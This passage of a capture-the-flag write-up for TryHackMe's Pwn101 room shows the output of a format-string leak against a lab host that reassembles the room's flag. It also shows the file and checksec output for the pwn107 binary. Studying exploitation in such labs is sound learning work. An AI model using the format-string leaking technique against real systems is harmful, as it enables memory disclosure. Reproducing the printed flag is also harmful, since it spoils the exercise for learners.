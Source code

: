 ```
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
8: b'0x5961774133766947\n'
b'Giv3AwaY'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
9: b'0x3168745f446e615f\n'
b'_anD_th1'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
10: b'0x756f595f73315f73\n'
b's_1s_You'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
[[-----------------------SNIP--------------------------]
[+] Opening connection to 10.10.146.62 on port 9006: Done
006: Done
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
97: b'0x19\n'
b'\x19'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
98: b'0x7ffdf94d5eb9\n'
b'\xb9^M\xf9\xfd\x7f'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
99: b'0x1a\n'
b'\x1a'
[*] Closed connection to 10.10.146.62 port 9006
[*]THM{y0U_w0n_th3_Giv3AwaY_anD_th1s_1s_YouR_fl4G}%12$p
```

#### Challenge 7 = PWN107

#### Basic File Checks

```
└─$ file pwn107.pwn107         
pwn107.pwn107: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0579b2a29d47165653fbb791fb528c59e951a1a0, not stripped

└─$ checksec pwn107.pwn107 
[*] '/home/mark/Desktop/B2B/THM/Pwn101/pwn107/pwn107.pwn107'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

